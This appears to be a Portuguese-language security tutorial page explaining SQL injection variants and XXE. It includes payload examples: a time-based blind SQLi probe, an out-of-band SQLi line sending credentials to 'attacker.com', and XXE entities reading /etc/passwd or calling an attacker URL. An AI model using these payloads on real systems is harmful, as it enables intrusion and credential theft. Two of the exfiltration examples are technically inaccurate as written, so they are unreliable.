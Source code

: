 #### **Injeção de Código (SQLi, XXE, RCE)**

A injeção de comandos SQL (SQLi) continua sendo um dos métodos mais comuns para obtenção de acesso não autorizado a bancos de dados, onde a vulnerabilidade permite que um atacante interfira nas consultas que uma aplicação faz ao banco de dados. Isso ocorre quando dados fornecidos pelo usuário são incluídos diretamente em uma consulta SQL sem a devida validação ou sanitização.&#x20;

Explicando de forma simples:

1. **Entrada Maliciosa**:
   * O atacante insere comandos SQL maliciosos em campos de entrada de formulários, como campos de login, caixas de pesquisa ou parâmetros de URL.
   * Exemplos de tecnicas seria:
     * **Blind SQL Injection**
       * O atacante **não vê diretamente a resposta** (ex.: erro ou retorno de dados), então usa **tempo de resposta do servidor** ou **mudanças sutis de comportamento** pra inferir se a consulta foi alterada com sucesso.
       * Exemplo: `IF(1=1, sleep(5), 0)` → Se a resposta demorar 5 segundos, significa que a query foi interpretada.
     * **Second-Order SQL Injection**
       * O payload malicioso **não é executado imediatamente**, mas armazenado no banco e **ativado em uma query futura**.
       * Exemplo: o atacante injeta um payload em um formulário de cadastro e, quando um admin revisa os dados mais tarde, a consulta SQL executa o código malicioso.
     * **Out-of-Band SQL Injection (OOB-SQLi)**
       * O atacante **não recebe resposta direta**, mas usa canais externos (como HTTP requests) pra exfiltrar dados.
       * Exemplo: `UNION SELECT username, password INTO OUTFILE 'http://attacker.com/data.txt'`
2. **Execução da Consulta**:
   * A consulta modificada é executada pelo banco de dados.
   * O ataque pode resultar na divulgação de dados confidenciais, modificação ou exclusão de dados ou até mesmo a execução de comandos administrativos no banco de dados.

Ataques como XXE (XML External Entities) exploram processadores XML mal configurados para exfiltrar arquivos internos ou realizar DoS:

1. **Definição de Entidades Externas**:
   * O atacante inclui entidades XML externas maliciosas em um documento XML.
   *   Exemplo:&#x20;

       * {% code overflow="wrap" %}
         ```xml
         <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
         ```
         {% endcode %}
         * Isso gera um leak direto do conteúdo do arquivo.
       * {% code overflow="wrap" %}
         ```xml
         <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/log?data=file:///etc/passwd">]>
         ```
         {% endcode %}
         * Isso envia dados pro atacante sem o servidor nem percerber

